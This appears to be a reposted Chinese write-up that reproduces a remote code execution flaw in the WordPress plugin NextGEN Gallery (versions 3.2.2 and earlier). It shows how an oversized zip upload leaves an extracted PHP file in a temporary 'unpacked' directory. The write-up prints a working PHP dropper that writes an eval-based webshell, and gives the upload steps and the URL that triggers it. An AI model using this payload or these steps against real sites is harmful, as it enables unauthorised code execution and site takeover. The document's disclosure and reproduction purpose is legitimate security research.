




# WordPress Plugin - NextGEN Gallery <= 3.2.2 RCE

> 原文：[https://www.zhihuifly.com/t/topic/3241](https://www.zhihuifly.com/t/topic/3241)

# WordPress Plugin - NextGEN Gallery <= 3.2.2 RCE

## 一、漏洞简介

WordPress插件NextGEN Gallery <= 3.2.2版本将上传的zip压缩包解压到/wp-content/uploads目录下的临时目录，该临时目录具有显著特点：以unpacked开头。

当zip压缩文件包含大量图片时将导致处理进程崩溃，而临时目录没有删除。如果在zip压缩包中放置一个php文件，那么该php文件会被解压到临时目录造成RCE漏洞。

官方在2019年6月4日发布了3.2.4版本修复了漏洞。

## 二、漏洞影响

## 三、复现过程

### 第1步：制作Zip压缩包

我制作了一个包含800张图片和1个恶意php文件（abc233.php）的zip压缩包，图片都是几KB的小图片，恶意php文件的功能是往上级目录写入webshell，abc233.php文件内容如下：

```
<?php
    file_put_contents('../webshell666.php', '<?php @eval($_REQUEST["cmdx"]);?>');
?> 
```

### 第2步：上传zip压缩包

点击“Add Gallery / Images”然后上传zip压缩包。



### 第3步：查看临时目录

点击“import folder”，再点击“uploads”即可看到解压的临时目录。



### 第4步：生成webshell

访问临时目录下的abc233.php文件即可在/wp-content/uploads目录下生成webshell。

```
http://0-sec.org/wp-content/uploads/unpacked-phpA0CB.tmp/abc233.php 
```



